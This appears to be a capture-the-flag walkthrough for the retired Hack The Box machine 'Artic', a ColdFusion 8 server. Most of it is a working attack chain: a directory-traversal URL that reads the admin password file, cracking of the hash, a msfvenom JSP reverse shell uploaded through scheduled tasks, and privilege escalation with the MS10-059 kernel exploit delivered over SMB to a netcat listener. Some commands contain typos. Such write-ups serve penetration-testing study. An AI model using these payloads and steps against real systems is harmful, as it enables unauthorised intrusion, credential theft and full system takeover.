# Artic

## Scanning 

furious 10.10.10.11
nmap -sC -sV -p 135,8500,49154 -n -Pn 10.10.10.11 -oN targeted



## 8500

``http://10.10.10.11:8500``



``http://10.10.10.11:8500/CFIDE/administrator/``



```bash
searchsploit coldfusion 8
```


```bash
searchsploit -x multiple/remote/14641.py

# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

we use the path in the exploit

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en


```bash
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```
we could use https://crackstation.net/ to crack the password

```bash
password=happyday
```
we enter and see mappins and scheduled tasks


now we have were we can save a task



we need a reverse shell in java so we use msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f raw > shell.jsp
```

we use a python http server and start the tasks


now we listen in our machine on port 443 and enter to the url http://10.10.10.11:8500/CFIDE/shell.jsp


### user flag

```cmd
type C:\Users\tolis\Desktop\user.txt
```

## privilege escalation

we transfer the systeminfo to use windows exploit suggester
```bash
./windows-exploit-suggester.py -d 2020-10-25-mssb.xls -i /home/gato/Documentos/htb/Retired/Artic/content/systeminfo.txt
```



### MS10-059 chimichurri

we enter here to download the kernel exploit https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

we open a smb server and on the other site we download from our machine
```bash
smbserber.py a $(pwd)
```

and open a connection on 4444
```bash
nc -lvp 4444
```

and we execute using the smb server
```cmd
mkdir chimichurri
cd chumichurri
chimichurri.exe
\\10.10.14.27\a\MS10-059.exe 10.10.14.27 4444
```

### root flag
``type C:\Users\Administrator\Desktop\root.txt``
